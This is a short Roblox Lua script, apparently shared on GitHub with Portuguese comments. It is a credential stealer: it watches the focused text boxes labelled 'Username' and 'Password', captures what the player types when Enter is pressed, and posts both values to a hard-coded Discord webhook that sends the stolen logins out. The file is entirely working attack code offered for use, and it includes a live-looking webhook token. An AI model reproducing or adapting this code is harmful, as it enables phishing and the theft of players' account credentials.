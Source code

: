 local webhookUrl = "https://discord.com/api/webhooks/1432144129579548692/5v0TouZ1sJZGi258AwNIQcVan8oNTfios6tuQqT82LEpMUWs1fpJe8lWo-OfXwo75CDA"

local function sendWebhookMessage(message)
    local httpService = game:GetService("HttpService")
    local data = {
        content = message,
        username = "Credential Capture",
        avatar_url = "https://example.com/avatar.png"
    }
    httpService:PostAsync(webhookUrl, httpService:JSONEncode(data))
end

local function captureCredentials()
    local userInputService = game:GetService("UserInputService")
    local username = ""
    local password = ""

    userInputService.InputBegan:Connect(function(input, gameProcessedEvent)
        if input.KeyCode == Enum.KeyCode.Return then
            -- Capturar o nome de usuário e a senha digitados pelo usuário
            local textBox = userInputService:GetFocusedTextBox()
            if textBox.PlaceholderText == "Username" then
                username = textBox.Text
            elseif textBox.PlaceholderText == "Password" then
                password = textBox.Text
            end

            -- Enviar as credenciais capturadas para a webhook do Discord
            sendWebhookMessage(string.format("Username: %s\nPassword: %s", username, password))
        end
    end)
end

captureCredentials()
